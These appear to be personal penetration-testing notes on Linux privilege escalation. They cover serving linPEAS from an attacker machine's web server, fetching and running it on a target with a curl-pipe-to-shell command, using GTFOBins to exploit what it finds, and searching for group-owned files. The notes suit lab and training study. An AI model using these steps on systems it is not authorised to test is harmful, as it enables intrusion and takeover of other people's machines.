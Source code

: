 # Privilege Escalation:

## linPeas:
  1. ```wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh```

  2. Once the linpeas.sh is downloaded, we can make our own webserver for the target machine to access. That way we can run the
     linpeas script in the target machine:
        ```python3 -m http.server 80```
  3. From the target machine, we can download the linpeas script from the attacker machine's web server with a curl command:
        ```curl http://<Your_Kali_VM_IP>/linpeas.sh | sh```

  4. make sure to modify permissions to allow us to execute linpeas.sh:
    ```chmod +x linpeas.sh```
  5. GTFOBins: after linpeas has found a PrivEsc vulnerability, GTFOBins can be used to find out how to exploit the PrivEsc vulnerability:
  https://gtfobins.github.io/

## checking groups for editable binaries:
1. use ```id``` command to check which groups the user is a part of. 
2. once we find the groups the a user is a part of, we can use
    ```find / -group users -type f 2>/dev/null```
to find the files that are owned by the group/user

